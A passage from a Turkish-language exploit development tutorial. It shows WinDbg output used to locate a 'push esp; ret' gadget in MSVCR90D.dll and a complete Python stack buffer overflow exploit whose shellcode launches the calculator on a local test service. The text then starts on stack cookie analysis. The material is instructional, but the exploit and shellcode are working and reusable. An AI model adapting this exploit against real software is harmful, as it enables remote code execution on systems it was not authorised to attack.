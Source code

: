 	0:001> u 7c90120f
	ntdll!DbgBreakPoint+0x1:
	  7c90120f 54              push    esp
	  7c901210 c3              ret
	0:001> s 10200000 10323000 54 c3 #MSVCR90D içerisinde arıyoruz.
	  102f0b58  54 c3 66 0f 73 d0 20 66-0f 7e c1 81 f9 00 00 f0  T.f.s. f.~......
	  102f0bef  54 c3 b9 f4 03 00 00 66-0f 6e d9 66 0f 54 05 20  T......f.n.f.T. 
	  102f6ef5  54 c3 66 0f 2e c3 7a 15-8b 44 24 08 c1 e8 1f dd  T.f...z..D$.....
	0:001> u 102f0b58
	MSVCR90D!_libm_sse2_powf+0x208:
	  102f0b58 54              push    esp
	  102f0b59 c3              ret

Netice olarak `102f0b58` adresine aradığım iki instructionı buldum. Şimdi exploit'i buna göre düzenleyip tekrar çalıştıralım.

	import struct
	from socket import *

	host = "localhost"
	port = 200
	adres = (host,port)

	Baglanti = socket(AF_INET,SOCK_STREAM)
	Baglanti.connect(adres)

	boyut = 1000
	cokertkaarsim = "A" * 504
	cokertkaarsim += struct.pack('<I', 0x102f0b58) #push esp, ret MSVCR90D.dll
	cokertkaarsim += "\x90" * 24 
	cokertkaarsim += "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"      
	cokertkaarsim += "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
	cokertkaarsim += "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
	cokertkaarsim += "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
	cokertkaarsim += "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
	cokertkaarsim += "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
	cokertkaarsim += "\x45\x81\x3e\x43\x72\x65\x61\x75"
	cokertkaarsim += "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
	cokertkaarsim += "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
	cokertkaarsim += "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
	cokertkaarsim += "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
	cokertkaarsim += "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
	cokertkaarsim += "\x6c\x63\x89\xe2\x52\x52\x53\x53"
	cokertkaarsim += "\x53\x53\x53\x53\x52\x53\xff\xd7"
	cokertkaarsim += "D" * (boyut-len(cokertkaarsim )) #D'ye bakip stackdeki kodu gorebilirsiniz.

	Baglanti.send(cokertkaarsim)
	Baglanti.close()

Exploiti çalıştırdığınızda çökme gerçekleşecek ve bizim ünlü hesap makinesi sizi karşılayacaktır. Buraya kadar tamam, bilinen stackoverflow açığını exploit ettik. Şimdi asıl konuya girelim, evet, buraya kadar aslında asıl konumuzda bile değildik, yalnızca yine bir programın exploit edilişini inceledik! Öncelikle bu cookie değerinin statik olup olmadığını bir test edelim. Acaba program her açıldığında bu cookie değeri aynı mı oluyordur ? Ne diyorsunuz ?
